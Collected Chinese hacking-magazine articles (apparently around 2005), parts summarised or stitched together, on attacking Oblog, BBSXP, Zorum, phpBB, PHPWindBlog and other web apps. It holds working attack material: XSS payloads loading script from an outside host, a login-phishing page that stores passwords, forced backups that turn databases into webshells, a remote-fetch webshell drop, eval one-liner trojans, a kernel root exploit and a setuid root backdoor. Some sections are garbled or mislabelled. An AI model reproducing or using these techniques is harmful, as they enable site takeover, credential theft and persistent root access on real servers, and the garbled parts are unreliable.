编辑提示：我一直想找几个 web injection 与系统结合的例子，来证明脚本其实可以做很多事。用 ASP 执行 JET 溢出得到 shell 经过 wscript.shell 算是一个，用脚本代理做转发这又是一个全新思路，如果脚本还能做出超乎你想像的事，那一定不要惊讶！

## 七、漏洞总结

Oblog 整个程序的安全并不是很好，有的页面过滤很严密，有的却很松散，我只是在 reg.asp 找到一个跨站漏洞，大家可以去其它的地方找找，还是有很多的，我这里只能是一个思路。尽管是跨站，我们玩得巧妙的话危害还是很大的。想补上这样的漏洞只能对每个要输出的变量做 htmlencode()，或者用它的 oblog.filt_html() 函数处理，如：

```asp
<%=oblog.filt_html(rsuser("blogname"))%>
<%=oblog.filt_html(rsuser("Question"))%>
```

这样就没有问题了，但是更重要的是程序员之间的沟通和安全意识，在进入数据库之前做一次过滤，然后输出的时候做一次过滤。由于我第一次写这样的文章，缺点很多，各位请到论坛上指教，我的 ID 是剑心。

> 【文中用到的钓鱼和后台提权代码已经收录在本期光盘，Oblog 主页是 http://oblog.oiq.net/】

网上的跨站文章有很多，不过提到的脚本却总是老一套，要不是一个收集 cookie 的 ASP，要不是一个 iframe 嵌入。这篇文章终于让我看到了一个比较有新意的跨站脚本。里边的查询页面表单属性，与填写表单值的几个 js 也很有用。如果要做个 web injection 的高手，无论是服务端的动态脚本，还是客户端的 dhtml 语法，不熟悉是不行的。

# 跨站也可以这样玩——谈 Oblog 3.0 的漏洞

剑心 [B.C.T]

## 一、前言

B.C.T 组织的很多人都找了各种各样的脚本漏洞，偶决心也要找一回漏洞。目标放在了比较流行的用户 Blog 程序 Oblog 上。其实早些时候，我就发现了该程序早期版本的很多毛病，如留言处的跨站脚本、冒名发言，还有数据库漏洞，后来就一直没有关注了，直到上次别人发现了 2.52 版本的 SQL 注入漏洞，今天偶就找找最新版 Oblog3 有什么漏洞吧！

## 二、漏洞发现

把程序下载回来，发现很多东西都有变化，大家可以自己去看看。首先去注册页面，有很多项目要填写，在填写的过程中打开源代码看变量过滤情况。我们所遇到的漏洞不外乎几个原因：SQL 字符没有过滤导致注入，HTML 等字符没有过滤导致跨站脚本漏洞，或者程序处理逻辑问题。

在注册页填写变量 `rbadeg`，提交后返回错误页：`域名不合规范，只能使用小写字母、数字及下划线！用户名中含有非法字符！`。将返回地址改为：`http://127.0.0.1:8080/oblog3/err.asp?message=<script>alert()</script>`，第一个跨站脚本被发现。

作者继续测试用户名与域名字段，发现首页显示处对输入未充分过滤，日志发表后在首页可看到注入内容，并能在页面源代码中定位输入值。

## 三、系统分析

通过查看源码，`username` 变量经过了较多过滤与长度限制（如 4~14 字符），可利用空间较小；但 `Blogname` 变量虽有长度限制（<=50）及部分关键词过滤，仍可构造跨站点。

```asp
regusername=oblog.filt_badstr(trim(request("username")))
if regusername="" or oblog.strLength(regusername)>14 or oblog.strLength(regusername)<4 then ...
```

```asp
blogname=trim(request("blogname"))
if blogname="" or oblog.strLength(blogname)>50 then ...
if oblog.chk_badword(blogname)>0 then ...
blogname=replace(blogname,"'","")
```

## 四、利用思路

- 1. 普通利用
- 2. 另类利用

普通利用场景中，跨站点可在首页或信息展示页触发。若 50 字符限制下可写入外链脚本，例如：`<script src=http://jnc.cnbct.org/1.js></script>`。

```javascript
for(i=0;i<10;i++) alert();
document.title='HacKED_BY_剑心';
document.write('<iframe style="display:none;" src="http://jnc.cnbct.org/mm.htm"></iframe>');
```

另类利用中，作者提出可结合首页表单进行脚本交互与钓鱼思路，先侦测表单数量、读取 action 等信息，再构造进一步利用。

```javascript
javascript:alert(document.forms.length)
javascript:alert(document.forms[0].action)
```## 10月

# 黑客与邪恶软件故事

```html
<script>
document.forms[0].action='http://jnc.cnbct.org/pass.asp'
</script>
```

首先做好的 `pass.asp` 内容如下。

```asp
<%
dim username,password,fso,file,url
username = Request("username")
password = Request("password")
Set fso = Server.CreateObject("Scripting.FileSystemObject")
path = server.mappath("password.txt")
set file = fso.opentextfile(path,8,TRUE)
file.write(username)
file.write(password)
file.close
response.write "<form action=http://127.0.0.1:8080/oblog3/login.asp>"
response.write "<input name=username type=hidden value='"&username&"'>"
response.write "<input name=password type=hidden value='"&password&"'>"
response.write "</form>"
response.write "<script>document.forms[0].submit()</script>"
%>
```

哈哈，这样一来，准备好上述工作后，如果在 `1.js` 里写入 `document.forms[0].action='http://jnc.cnbct.org/pass.asp'`，就会把登录信息钩到我们页面。

钓鱼是很有意思，可是如果得到服务器 shell 更好。注册那里有不少变量会传到后台，很多变量由数据库取出后不经处理直接显示。

因为管理员要自动备份数据库，作者提到可先做一个表单再提交。接着搭建测试平台，在 Blogname 中写入脚本片段进行尝试。


通过 `javascript:alert(...)` 方式把 blogname 设为 `<script src=http://jnc.cnbct.org/1.js></script>`，提交后即可把载荷写入表单。


然后看后台跨站，添加文件类型并修改页面源码中的表单 value 等字段，本地保存为 `test.htm`。

```html
<input type="radio" name="upfile_user" value="1" checked>
<input name="upfile_user_type" type="text" id="upfile_user_type" value="gif|jpg|png|bmp|...|asp" size="60" maxlength="200">
```

```html
<script>
document.forms[0].submit(); // 自动提交表单
</script>
```

接着说明如何绕过字符过滤，把 Blog 信息中的输入变形成脚本标签。由于长度限制，可放在“密码问题”等字段中执行。


在密码问题写入 `<script src=http://jnc.cnbct.org/1.js></script>` 即可触发。若准备好 `test.htm`，可用 iframe 方式加载。

```javascript
document.write("<iframe style='display:none;' src='http://jnc.cnbct.org/test.htm'></iframe>");
```

文末说明管理员登录后台后会打开准备好的页面，从而验证修改是否生效，最后提示“下接第311页”。

## 跨站的精彩

## —— XSS 名称介绍

## 1. 什么是 XSS 攻击

XSS 又叫 CSS（Cross Site Script），翻译过来即跨站脚本攻击。它指的是恶意攻击者在 Web 页面里插入恶意 HTML 代码，当用户浏览该页之时，嵌入其中的 Web 页面里的 HTML 代码会被执行，从而达到恶意用户的特殊目的。XSS 属于被动式的攻击，因为其不太好利用，所以许多人常忽略其危害性。而本文主要讲的是利用 XSS 得到目标服务器的 shell。技术虽然是老技术，但是其思路希望对大家有所帮助。

## 2. 如何寻找 XSS 漏洞

就个人而言，我把 XSS 攻击分成两类：一类是来自内部的攻击，主要指的是利用程序自身的漏洞，构造跨站语句；另一类则是来自外部的攻击，主要指的是自己构造 XSS 跨站漏洞网页，或者寻找非目标机以外的有跨站漏洞的网页。通过结合社会工程学等其它技术，欺骗目标服务器的管理员打开该跨站语句，然后利用下面的技术得到一个 shell。


## 3. 如何利用

传统的跨站利用方式一般都是攻击者先构造一个跨站网页，然后在另一空间摆放一个收集 cookie 的页面，接着结合其它技术让用户打开跨站页面以盗取用户的 cookie，以便进一步的攻击。本文提出另一种思路：通过跨站构造一个表单，表单内容可以利用程序的备份功能或者增加管理员等功能得到一个高权限。下面我将详细介绍这种技术。

## —— 关注目标的跨站攻击

## 1. 寻找跨站漏洞

如果脚本开源的话比较好办，我们主要看代码里对用户输入的地方和处理有没有过滤不严。比如在标题处输入 `<script>alert('test')</script>`，若代码闭合处理不当则可执行。若少了一个 `</script>`，则可通过补全闭合后触发脚本。

- 先注册一个普通用户（示例用户：linzi）。
- 在个人签名里写入构造好的跨站 URL。
- 发送帖子并诱导管理员浏览。
- 管理员打开后触发后台操作，进一步获取权限。

```text
[img]http://127.0.0.1/bbsxp/admin_user.asp?menu=userok&username=linzi&membercode=5&userlife=1&posttopic=3&money=9...[/img]
```

右栏内容继续说明了利用个人签名、头像 URL、上传扩展名绕过等方式进行跨站利用，并讨论了局限性与改进方向（如结合 flash 跨站）。最后给出了在 DVBBS 场景下通过构造表单修改管理员密码的案例。

```text
[img]http://127.0.0.1/bbs/admin_admin.asp?action=newpass&oldusername=admin&username2=admin&password2=admin...[/img]
```

## 三、来自外部的跨站攻击

有的时候，当我们对于目标程序找不到可以利用的跨站点，我们可以利用从外部入手。好比我们要拿下的是它的论坛，不过论坛的安全性做得很好，但其留言板却存在跨站漏洞，这个时候可以在留言板里写入跨站语句。跨站语句为以表单的方式向论坛提交提升权限的语句，如上面的 bbsxp 加 asp 扩展的语句。当然我们可利用后台的备份功能直接得到一个 shell。

例：先上传一个文件 `linzi.txt`，内容如下：

```html
<body onload="javascript:document.forms[0].submit()"><form action=http://127.0.0.1/bbsxp/admin_fs0.asp?menu=bakbf method=post><input value="database/bbsxp.mdb" name="yl"><input value="database/shit.asp" name="bf"></body></html>
```

上面的代码是把论坛的数据库备份为 `shit.asp`，留言板存在跨站点如下 `http://127.0.0.1/bbsxp/page2.asp?username=`，我们构造备份跨站语句如下：

```text
http://127.0.0.1/bbsxp/page2.asp?username=%3C%62%6F%64%79%20%6F%6E%6C%6F%61%64%3D%22%6A%61%76%61%73%63%72%69%70%74%3A%64%6F%63%75%6D%65%6E%74%2E%66%6F%72%6D%73%5B%30%5D%2E%73%75%62%6D%69%74%28%29%22%3E...
```

注意：以上为 URL 传送字符，转成一般的字符为：

```text
http://127.0.0.1/bbsxp/page2.asp?username=<body onload="javascript:document.forms[0].submit()"><form action=http://127.0.0.1/bbsxp/admin_fs0.asp?menu=bakbf method='post'><input value="database/bbsxp.mdb" name="yl"><input value="database/shit.asp" name="bf"></body></html>
```

我们为何要把它转成 URL 字符？那是因为一个为了进行简单的加密，另一个是免去一些不必要的麻烦，因为有些论坛是不能提交“<>”等符号的。此时我们再给游客访问，利用 iframe 打开一个叫 `linzi.txt` 的文件，当管理员打开我们的跨站语句后，会自动备份得到一个 shell。

## 四、XSS 与其它技术的结合

从上面的实例，我们可以知道，如何欺骗管理员打开跨站语句是一个很重要的步骤。对于欺骗打开，除了社会工程学外，还可以结合其它的技术，如 SQL Injection。当我们渗透一个网站之时，主站 MSSQL 存在注入漏洞，权限为 public，这个时候我们利用 update 构造跨站语句，如用 iframe 打开一个上面的备份得到 shell 的跨站语句等；同样，我们可以在社会工程学时，利用 QQ 的其它跨站漏洞等等。

总之对于欺骗也是一门艺术，具体怎么利用，大家就发挥自己的想象力吧！

## 五、Flash 木马的制作

看了上面的这些跨站手法后，你是否已经想找个论坛来尝试一下这种新的 XSS 攻击了？但是实际应用中，你用内部的 XSS 攻击时，却会遇到种种困难。比如说：论坛已经限制了头像的链接长度、签名处也限制了内容的长度。我们知道，这种内部的 XSS 攻击是一种新的攻击方法思路，必须得构造相对来说长度蛮长的 XSS 攻击句，那就没有办法了吗？不是的，我们可以做一个 FLASH 木马，里面隐藏一个脚本攻击，只要 admin 打开，那么就可以达到第二点中的“来自内部的跨站攻击”的效果。呵呵，相信有人已经等不及了，好！follow me to XSS with the FLASH evil！

我现在用来做 FLASH 木马的软件不是网页三剑客中的 FLASH 软件（因为它太大了），我们要用到的是一个叫做 SWiSHmax 的软件。此软件才 12M，其中内置了 300 多种动画效果。而其界面类似于网页三剑客中的 FLASH 软件，基本一样。而用它来做网页木马，可能比你会的还要新手一些，基本上只要三步就可以做出一个 FLASH 木马出来了。好，看下面图文并茂的实际操作吧。

首先，打开 SWiSHmax，如图2所示随便写进几个文字。写几个字进去你们都会了吧。写好了以后，我们选择“时间轴”左边的“添加效果”，随便添加一个效果，操作如图3所示。

好了，按“ALT+Enter”来测试一个动画，呵呵，一个具有专业水平的效果已经做出来了。现在，我们来做最后一步，也是最关键的一步，你们可要仔仔细细地看好哦。切换到脚本编辑视图。切换的方法是点击“脚本”，如图4所示：


现在的 FLASH 动画脚本都是空的，现在来写进脚本。切换到这个脚本编辑视图以后，选择“添加脚本→事件→帧→onFrame(...)”，此操作如图5所示：

## 10月

## 西线无战事 黑客档案


一定要选择这个格式，因为这才是 FLASH 的格式，在网络上才能发布。动画脚本做好了，怎么样利用，就看大家的智商了。只要找到对应的论坛，再利用社会工程学，只要管理员打开这个帖子，那么就可以进行 XSS 攻击了，我们就成了管理员了。


注意：我们做上面的那个步骤时，最容易出错的是，读者们还没有选择“版面：Scene.1”中的一帧，随便选择哪一帧都可以。为了提高效率，还是选择每一帧为好。好了，上面的语法我还是简单地说一下吧，就是当动画运行到你指定选择的那一帧时，就自动执行一个命令。可以执行命令了，那我们就要使它提交一份内部的 XSS 攻击脚本了。步骤：“添加脚本→浏览器/网络→getURL”，操作如图6所示。


```text
http://127.0.0.1/bbsxp/admin_user.asp?menu=userok&username=linzi&membercode=5&userlife=1&posttopic=3&money=9&postrevert=0&savemoney=0&oldtopic=1&regtime=2005-9-1+%3A1%3A1&experience=9&country=%D6%D0%B9%FA&&Submit=+%B8%FC+%D0%C2+
```

工作完成后效果如图7所示：注意编写表单攻击代码的时候，应该在脚本编辑区下面的“URL”内直接填写。最后，选择“文件→导出→SWF”。

> 总结：通过这篇文章，我们不难发现，现在的 XSS 已经由传统攻击转换为一种新的 XSS 攻击法——表单提交攻击（Frame Evil Exploit For Cross Site Script）。

通过这篇文章，我们不难发现，现在的 XSS 已经由传统的攻击转换为了一种新的 XSS 攻击法——表单提交攻击，再也不是简单的盗取 cookies 之类的手法了，而是直接锁定目标进行有效的攻击。这个可能是 XSS 新的发展方向。而我们又该怎样防止？到目前为止，还没有很好的防止办法。我们期待这些出现还不久的软件来合理彻底地防范。

## 正文

## 通过 marc.theaimsgroup.com 安全公告

## 对国外网站的入侵过程

2005年8月18日，国外著名的安全网站 `http://marc.theaimsgroup.com` 公布了一个关于 Zorum 3.5 的安全公告。大体意思是 Zorum 是一款用 PHP 实现的免费开源论坛程序。

公告指出可通过 `/zorum/gorum/prod.php?argv[1]=cat%20/etc/passwd` 等方式获取敏感信息，并给出了相应 exploit。

```php
07  $doubleApp = isset($argv[1]);
14  if( $doubleApp )
15  {
16      $appDir = $argv[1];
17      system("mkdir $prodDir/$appDir");
}
```

这是 PHP 的一个一句话 EVAL 木马，利用它可以在 PHP 服务器上执行任意的 PHP 代码。现在打开 `http://www.target.org/gorum/1.php`，发现这个文件已经存在了，提交简单的 PHP 命令测试一下（图2）：`http://www.target.org/gorum/1.php?a=phpinfo();`。

```php
<?
$fP=fopen("1tt.php","a");
fwrite($fP,file_get_contents("http://sec.512.com/flahe.txt"));
fclose($fP);
?>
```

然后提交 `http://www.target.org/gorum/1.php?b=http://www.site.cn/exploit/createfile.txt&a=include($b);`，等这个 URL 运行完全之后，`http://www.target.org` 便会在 `/gorum/` 目录下写入一个 `1tt.php` 的 webshell（图3）。


拿到了这个 webshell 后，这次测试也该结束了。至于权限的提升还是由读者自己去完成。之后作者也测试了一些其他的网站，发现国外的网站许多都把服务器权限补丁更新做得很好，所以要成功利用这个漏洞还是挺难的，这就要看大家的运气了。

- `http://marc.theaimsgroup.com` 是一个国外著名的安全网站，它每个月公布的漏洞公告就有 200-600 多个。
- 使用 PHP 一句话 EVAL 木马的时候，提交的 PHP 代码里不可以带引号，若要定义字符串变量，可使用 GET 直接提交。

好了，文章到此就告一段落了，有问题的话到 `http://www.nohack.com/bbs` 上与我讨论。提高网络安全，一个人受信息的精力和能力都是有限的，关注漏洞公告，找到利用方法，也是做黑客的常规做法。

## 上接第323页

针对这些极具危险性的“废旧文件”，一些扫描器已经提供了相应扫描功能，如发现提供的“Web 路径猜解器”（图3）。该工具自带多个 Web 虚拟目录名字列表用于猜解目标服务器可能隐含的具有利用价值的虚拟目录，根据需要用户还可以手动添加目录名称。

此外，如果能够将伪装 TTL 报文的思路利用在这些隐患文件中，不仅可避免服务器被入侵，还可以加强系统安全。比如在 BBS 目录下放置一个 `readme.txt` 文件，将其内容替换为伪网页的 `readme.txt` 内容，再更改相应权限；或者在 Web 虚拟目录下放置伪造的 `conn.asp`、`bak` 或 `global.asp.bak` 文件，与入侵的数据库内容对应，或者备份内容，不仅可以迷惑攻击者打乱渗透思路，还有可能使其知难而退。


> 【文章里提到的相关工具“路径猜解器”、“D 注入工具”已收录在本期光盘】

# 通过 PHPBB 拿日本 Linux 主机系统权限

KYO 王智磊

最近公司不是很忙，我和我同学（也是同事）对 Linux 产生了极大的兴趣。于是都在虚拟机上装了 Red Hat 9.0，基本操作熟悉了以后，总感觉还是找个肉鸡好玩些，并且决定玩就要玩日本的。大家都知道日本的 Web 服务器最喜欢用 *nix，个人感觉日本 70% 的网站都是用 *nix+Apache 的构建方式。

当然那些溢出 Apache 的 0day 程序我们没有，所以决定还是先从 WebShell 下手，然后想办法提升权限。怎么找目标呢？首先可以考虑 CGI 漏洞，从这个地方入手肯定能找到很多口子，不过这个以后再说，今天就谈一个大家都熟悉的 PHPBB 论坛。因为最近爆出了不少关于这个论坛的漏洞，另外这个论坛也应用得蛮广泛的。打开 www.google.co.jp 输入关键字 powered by phpbb，结果出来很多，随便找到一个版本比较低的 PHPBB 论坛。地址为 http://www.***.org，可以看到是 phpbb2.0.3，这个版本可以用修改 Cookies 进入后台。

## 一、拿到 webshell

打开 iecvv.exe，编辑 Cookies，把 value 替换为 `a:2:{s:11:"autologinid";b:1;s:6:"userid";s:1:"2";}`，如图1所示。


然后保存以后，关掉网页，重新再打开一次，就变成管理员了。点击下面的 Go to Administration Panel 链接进入后台。现在我想大家关心的是怎么通过后台拿到一个 webshell 了。具体原理在这里我就不多说了，就是利用 `%00` 进行 `url` 编码一次成 `%25%30%30`，include 会被成功截断，那么我们可以利用 `../` 来调用文件。把 phpshell 代码保存为 gif 或其他图片格式，再通过论坛上传后利用构造 install_to 并被 include() 调用并执行。


把精心构造的含有 `<?php eval($_POST[cmd]);?>` 的图片 test.gif 作为头像传上去，并查看源代码记下来 gif 的路径。因为这个论坛比较特殊，那个图片目录不可写，我改到 tmp 目录。所以我这里路径为 `../../../../../../../../tmp/dcf91e05431c8366e40a9.gif`，然后我们用 `http://www.***.org/forum/admin/admin_styles.php?mode=addnew&&install_to=../../../../../../../../tmp/dcf91e05431c8366e409.gif%25%30%30&sid=...` 在 lanker 一句话木马客户端提交后，就可以得到一个可爱的 webshell 了（图4）。


在这里要说一下的是，最后的那个 sid 的值是你进后台页面地址后面的那个值复制过来的。好了，这个后门实在不是很好看，再传一个大一点的马吧（图5）。


## 二、提升权限

图5这个马看起来就舒服多了，并且执行命令也方便了。现在有了 webshell，执行命令 `id`，结果是 `uid=33(www-data) gid=33(www-data) groups=33(www-data)`，看来权限是很小，接下来就是提升权限。先查看系统的版本，执行命令 `uname -a`，看到系统版本是：Linux pod-133 2.4.22-1-686 ... GNU/Linux。

正好手上有一个这个版本的溢出程序，可以试一下。关键是能找到一个弱口令的账号通过 SSH 登录上去上传代码，编译然后执行。执行命令 `cat /etc/passwd`，如图6所示。


把执行命令的结果复制下来，然后分离用户，用流光跑了3个小时终于得到一个 FTP 的弱口令账号。打开 SecureCRT，通过 SSH 登录上去（图7），当然现在权限仍然很低。

进来以后用 `wget` 传我的溢出代码，代码详见本期光盘里的 `mremap_pte.c` 文件。编译方式：`gcc -O3 -static -fomit-frame-pointer mremap_pte.c -o mremap_pte`，编译成功后执行 `./mremap_pte`，如图8所示。从图8中可清楚看到溢出成功，ID 为 root 了。

```c
main(){
  setuid(0);
  setgid(0);
  system("/bin/bash");
}
```


把 `shell.c` 放到你认为隐藏的目录，编译 `gcc shell.c -o shell`，再赋予权限 `chmod 6755 shell`，以后我们再用普通用户 SSH 登录进来，直接执行 shell 就变为 root 权限了。

好了，到这里本文已经结束了。大家有谁藏有比较实用的 *nix 溢出程序代码，不妨拿出来共享一下。

> 【文章里用到的相关工具：ExeC、SecureCRT、lanker2.0 php 木马、及用到的相关代码 mremap_pte.c（在本期光盘里有收录）】

在交换机中添加 VLAN 13（目标主机的 VLAN 号），进入 Fa0/12 端口，`switchport trunk all vlan add 13`，在 trunk 中添加 VLAN13，使这条线路可以通过 VLAN13 的数据。

```bash
#clear ip nat translation *
#no ip nat inside source list 10 pool NO.1027 overload
#router eigrp 10
(config-router)#network 172.16.2.0 0.0.0.255
(config-router)#network 172.16.3.0 0.0.0.255
#reload 10 / 10
```

| Device ID | Local Interface | Holdtime | Capability |
|---|---|---|---|
| Router3 | Fa0/12 | 170 | R ... |

现在路由器就可以为我们转发数据包了，并且在 10 分钟自动重启使更改的配置失效。

> 【文章里用的工具文件合并器、夹带饭的 getwebshell.exe 已收录在本期光盘中】

# PHPWindBlog 最新漏洞分析

philoes[B.C.T]

PHPWindBlog 是 http://www.phpwind.net/ 开发的一款多用户 Blog 系统。该 Blog 采用 php+mysql 数据库架构，并可生成 html 页面的强大系统。不过这款 Blog 并没有继承像 PHPwind 论坛一样的安全特点，存在一个普通用户修改管理员密码的漏洞。

## 一、漏洞分析

在 user_index.php 文件里有这样一段代码：

```php
define('R_P','/data/');
define('M_P','/mod/');
define('U_P','/user/');
require_once(U_P.'global.php');
require_once(M_P.'page_mod.php');
$user_file='user_index.php';
if(!$action){
    require_once PrintEot('index');
    exit;
}elseif($action=='index'){
    ...
    require_once PrintEot('admin');
    exit;
}elseif($action=='bbsatc'){
    if($db_combine){
        require_once(U_P.'bbsatc.php');
    }
}else if($action){
    require_once(U_P.$action.'.php');
}else{
    adminmsg('undefine_action');
}
```

代码中 `$action` 这个变量我们可以任意提交。原先的变量只是包含 `/user/$action.php` 这个文件，假设这里将 `$action` 设置为 `../admin/manager`，不就包含了和 user 同目录下的 admin 目录中的 manager.php 文件吗？在 PHPWindBlog 中，管理员是用 admin.php 包含执行 admin 目录下的文件，注册用户则是用 user_index.php 包含执行 user 目录下文件，而能否访问 user 目录和 admin 目录里的文件，关键就是判断是否定义了 adminmsg 函数。这就导致我们有机可乘。

有些人可能想到了，注册登录后直接提交：`http://localhost/PHPWindBlog/user_index.php?action=../admin/manager`，不过这样你会发现页面是空白的，哈哈，还是老实看代码吧！

```php
if(!function_exists('adminmsg') && exit('Forbidden'));
$basename='$admin_file?action=manager';
include R_P.'sql_config.php';
if($job){
    include PrintEot('manager');exit;
}else{
    // 删除部分代码...
    $writetofile=
    "$manager='${username}';\n"
    ."$manager_pwd='${password}';\n";
    /**
     * combine with bbs
     */
    "$db_combine='$db_combine';\n";
    ...
    writeover(R_P.'sql_config.php',$writetofile);
}
```

页面显示为空白的原因就是 `include PrintEot('manager')` 这句的原因了。user_index.php 无法包含 template/default/admin/manager.htm 这个文件，大家最好下载后看 PHPwindEOT 这个函数就会明白。不过这段代码关键是更新了 sql_config.php 这个文件，导致我们可以修改管理员密码。

## 二、利用过程

- 1. 注册一个新 blog，然后登录，以 `http://localhost/blog/PHPWindBlog/` 为例。
- 2. 提交：`http://localhost/blog/PHPWindBlog/blog.php?uid_1.html`，找到管理员的用户名，这里因为是本机测试，管理员的用户名是：philoes。
- 3. 提交：`http://localhost/blog/PHPWindBlog/user_index.php?action=../admin/manager&job=submit&username=philoes&password=119119&check_pwd=119119`，这样会把 philoes 的密码改为 119119，效果如下图所示。
- 4. 退出，用该用户名和密码登录，就可以看见系统设置这个选项了。再次登录，就可以进入后台了。
- 5. 进一步的入侵，就交给各位了，希望有好方法的朋友贴到 NOHACK 论坛。
- 6. 漏洞的修补只须将 `$action` 过滤 “..” 就行了。


最后要说的是，漏洞的利用方法不是主要的，我想讲的是漏洞产生的原因，以此严谨我们的思维，丰富入侵手段。

> 编辑点评：继 ASP 注入热潮难平的时候，很多人都开始研究了 php 注入。有很多人说，web injection 注入与各式脚本并不相关，而只是直接针对的是数据库的注入，像 ASP 对应的是 mssql、access，php 对应的是 mysql 等等。这句话有点道理，不过并不能令人信服。在脚本注入中，学习各式脚本的语法，才能更好地理解注入。本文就是这样一个例子。小小的一个 require_once 语句，由于变量的未过滤，导致了漏洞的产生，这个漏洞基本上就是与数据库无关的了，虽然系统是 php+mysql 结构。

# 雕虫小技

## 删除掉不必要的协议

对于一个普通用户来说 TCP/IP 协议已经够用了。依次选择“开始→程序→控制面板→网络和拨号连接”，右键单击“本地连接”，在弹出的菜单中选择“属性”，在“本地连接 属性”窗口中去掉“Microsoft 网络的文件和打印机共享”前面的小钩后，再选择“Internet 协议 (TCP/IP)”，点击“属性”按钮，打开 Internet 协议 (TCP/IP) 属性窗口后再点击“高级”按钮，打开高级设置窗口后选择 WINS 属性页，选择“禁用 TCP/IP 上的 NetBIOS”即可。这样有效防止被一些类似 SMBCRACK 这样的工具破解或被一些恶意网页得到系统的 NT 口令散列，同时也关闭了 139 端口。

## 卓越网站快车

### 再现严重漏洞

科尔沁鹰－纳民

卓越网站快车是一套适用于各类商务网站的 ASP 建站系统。自从 6.12 版出现严重的文件上传漏洞后，其编写者开始注重源代码的安全性，采取了诸多措施。但智者千虑必有一失，再加上系统拥有多达 13MB 左右的脚本文件，结构繁杂，还是不可避免地出现了严重漏洞。

加最短的木马语句后（如 `<%execute request("a")%>`）提交表单，再用 ASP 木马客户端取数据库文件 webdc.asp，获取 webshell（图3）。其中，modi.asp?id= 后的参数各有不同，但可以通过先下载 webdc.asp 数据库查看表 DC 中的 ID 字段后确定。经测试，该漏洞遍布卓越网站快车官方网站在内的使用 7.1、7.2、7.3 版本搭建的站点，危害非同一般。

## 一、跨站脚本执行漏洞

和很多建站系统一样，编写者在考虑防范流行的脚本注入漏洞的同时忽略了跨站脚本执行漏洞（CSS），使得攻击者可以提交恶意脚本代码进行跨站攻击，其后果将直接导致：

- 用户 Cookie 中的敏感数据被窃取；
- 伪造页面；
- 拒绝服务攻击。

```html
<script>alert(document.cookie)</script>
```

```html
<script>document.location(http://www.target.com/muma.htm</script>
```

```html
<iframe src="http://127.0.0.1/1/muma.htm" width="0" height="0" frameborder="no" border="0" scrolling="3"></iframe>
```

攻击者还可以构造页面重定向脚本或 iframe 页面，将用户引导至恶意页面。涉及该漏洞的文件是 edit_tab.asp，在提供要/供求信息的栏目中，允许提交足够长度的危险脚本，在地区一栏中添加隐藏 iframe 会使浏览该信息的用户访问长度及宽度为 0 的隐藏页面。恶意用户可以利用此漏洞在后台运行网页木马，另外，通过递交危险脚本，进行恶意消耗资源的动作，如运行包含死循环或打开无穷多个窗口的脚本使用户系统崩溃。


## 二、更严重的威胁——获取 webshell

现在，很多建站系统编写者们都在竭尽全力防范攻击者通过其脚本系统获取威胁服务器安全的 webshell，卓越网站快车也不例外。它采用了安全的附件上传模式，还禁止备份系统指定外的数据备份，不过却忘记了 Access 数据库改名为 asp 文件后的威胁。这里所说的数据库文件是用于存放站点调查信息的位于目录 DC 下的 webdc.asp 文件（图2）。

为了防止下载，编写者将该 Access 数据库文件后缀名改成了 asp，但因为没有对输入进行充分过滤，使得普通用户可以在登录后直接请求 `dc/modi.asp?id=47` 页面，然后在“修改为”项目中添加最短木马语句提交表单，再利用数据库文件实现 webshell 获取。


## 三、漏洞的修补

发稿时，卓越快车官方已经发布了最新的 7.3 版本，经过简单测试，还是存在跨站脚本执行漏洞。最好的修补方法是采用 ISO-8859-1 规范，具体措施做 `<META http-equiv="Content-Type" content="text/html;charset=ISO-8859-1">` 中的每个字符都可以使用其数字项值进行编码。

服务器端的编码是一个过程，其中所有动态内容都将经过一个编码函数，这时脚本编码标记将被替代为所选择字符集中的代码（像 ASP 中的 `server.HTMLEncode` 函数）。另外还可以采用微软提供的一个简短的 Javascript 程序来完成对输入数据的过滤，如：

```javascript
function checkForm() {
  document.forms[0].userName.value = RemoveBad(document.forms[0].userName.value);
  return true;
}

function RemoveBad(strTemp) {
  strTemp = strTemp.replace(/\^|<|>|\?|\[|\]|\{|\}|\,|\&|\+|\-|\(|\)|\%/g, "");
  return strTemp;
}
```

这样就可以过滤在输入中含有的“%<>[]{}，&+-()”等危险字符，利用该方法就能在很大程度上避免跨站脚本执行漏洞的攻击了。

> 漏洞期探析：作者的这篇文章写得并不是很详细，类似一个漏洞公告。至于如何利用 ISO-8859-1 规范防跨站攻击，这个提法太专业了，估计作者是从网上跨站攻击的某篇经典文章摘抄来的。

# 伊风网络留言本的严重漏洞

philos[B.C.T]

前段时间有个朋友给我提供了几十MB的PHP空间，但不支持数据库，于是我就想建个主页了。建主页当然少不了一个留言本啊，便去中国站长站下载了个基于 PHP+TXT 的伊风网络留言本（以下简称伊风）。习惯性地去看看源代码，看了约10来分钟，很容易就发现了一个严重的漏洞。用 Google 搜索了一下，用伊风的人还真多，于是就写了这篇文章。

伊风网络 gbook v1.0 的界面还算漂亮，不过安全性却很不好。问题出在它对写入的留言信息的几个变量没有过滤，只是限制了提交内容的长度。对于突破限制提交内容长度的方法，大家都很熟悉了，只要用本地提交的方法就行了。下面来看看它问题文件（index.php）的相关代码：

```php
//处理添加留言
else if($action==add){
  //badwords decide
  $badwords_data=@$IWFile->readfromfile("data/badwords.php");
  $badwords_arr=explode("\n",$badwords_data);
  if(@InString($badwords_arr,$content)||@InString($badwords_arr,$name)||@InString($badwords_arr,$topic)){goback("-1","你的发言中含有管理员禁止的词语");exit;}
  // end
  $name=trim($name);
  $topic=trim($topic);
  $content=trim($content);
  $oicq=trim($oicq);
  $email=trim($email);
  $home=trim($home);
  $ip=getip();
  $ipdata=@$IWFile->readfromfile("data/ip.php");
  if(strstr($ipdata,"$ip|")){goback("-1","对不起，管理员已禁止您这个ip地址的发言");exit;}
  if($name==""){goback("-1","留言人名不能为空");exit;}
  if($topic==""){goback("-1","留言主题不能为空");exit;}
  if($content==""){goback("-1","留言内容不能为空");exit;}
  if($sex==""){$sex="nosex";}
  if($sort==""){$sort="17";}
  if(!ereg("^[1-9]?[0-9]{4,}$",$oicq)&&$oicq!=""){goback("-1","oicq不合法，请修改");exit;}
  if(!ereg("^(.+)@(.+)\.(.+)$",$email)&&$email!=""&&$email!="@"){goback("-1","email不合法，请返回修改");exit;}
  if(!ereg("^http:\/\/(.+)$",$home)&&$home!="http://"){goback("-1","个人主页地址不合法");exit;}
  /* ok; add other items */
  $date=date("Y-m-d H:i",time());
  $content=ubb($content);
  $content=str_replace("|%%|","",$content);
  if($oicq==""){$oicq="没有填写";}
  $IWFile->writetofile("data/gb.php","$name|%%|$topic|%%|$sex|%%|$sort|%%|$oicq|%%|$home|%%|$email|%%|$date|%%|$ip|%%|$content\n",'a+');
  echo("<center><a href=index.php>留言成功!请返回</a></center>");
}
